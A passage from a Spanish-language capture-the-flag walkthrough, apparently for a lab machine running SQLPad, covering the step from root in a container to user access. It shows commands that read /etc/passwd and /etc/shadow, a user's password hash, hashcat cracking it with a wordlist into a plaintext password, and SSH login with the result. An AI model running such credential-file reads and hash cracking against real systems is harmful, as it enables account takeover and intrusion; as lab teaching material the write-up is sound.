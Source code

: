 ## Initial Access

Procederemos a revisar el archivo `/etc/passwd` en busca de usuarios que dispongan de una `bash`, en el resultado obtenido verificamos que el usuario `michael` dispone de terminal.

```bash
root@c184118df0a6:/var/lib/sqlpad$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
node:x:1000:1000::/home/node:/bin/bash
michael:x:1001:1001::/home/michael:/bin/bash
```

### Cracking Hashes in /etc/shadow File

Dado que actualmente somos el usuario `root`, procederemos a revisar el contenido del archivo `/etc/passwd` el cual contiene las contraseñas de los usuarios, entre las cuales apareecn la del usuario `michael`.

```bash
root@c184118df0a6:/var/lib/sqlpad% cat /etc/shadow | grep michael
michael:$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:19860:0:99999:7:::
root@c184118df0a6:/var/lib/sqlpad% 
```

Procederemos a guardarnos en nuestro equipo local el hash del usuario en un archivo llamado `hashes`.

Al proceder a intentar crackear el hash con la herramienta de `hashcat`, revisaremos que finalmente logramos crackear el hash y obtener la contraseña en texto plano.

```bash
❯ hashcat -a 0 hashes /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting in autodetect mode

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 17.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-sandybridge-11th Gen Intel(R) Core(TM) i5-1135G7 @ 2.40GHz, 2913/5891 MB (1024 MB allocatable), 8MCU

Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

1800 | sha512crypt $6$, SHA512 (Unix) | Operating System

...[snip]...
$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:insaneclownposse
...[snip]...
```

Probaremos de acceder al equipo víctima `10.10.11.32` mediante el protocolo `SSH` con el usuario `michael` y las credenciales obtenidas y verificamos que hemos logrado acceder al equipo y verificar la flag de **user.txt**.
